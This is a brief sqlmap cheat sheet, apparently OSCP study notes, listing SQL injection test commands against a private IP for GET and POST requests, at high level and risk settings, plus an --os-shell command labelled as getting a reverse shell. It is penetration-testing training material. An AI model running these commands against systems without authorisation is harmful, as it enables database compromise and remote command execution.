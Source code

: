 # SQLMAP

DISCLAIMER: There are a number of tools you are not allowed to use in your OSCP exam. At the time of writing, sqlmap is one of them. Check which tools are restricted/banned before you use them during your exam. You can find detailed information about tool usage in the exam guidelines.
Get Request

## Test All (Default Settings)

```
sqlmap -u "http://192.168.0.1/database/inject.php?q=user" --batch
```

## Test All (Default Settings, High Stress)

```
sqlmap -u "http://192.168.0.1/database/inject.php?q=user" --batch --level=5 --risk=3
```

## Post Request (Capture with BURP)
### Test All (Default Settings)

```
sqlmap --all -r post_request.txt --batch 
```

### Test All (Default Settings, High Stress)

```
sqlmap --all -r post_request.txt --batch --level=5 --risk=3
```

### Get A Reverse Shell (MySQL)

```
sqlmap -r post_request.txt --dbms "mysql" --os-shell
```


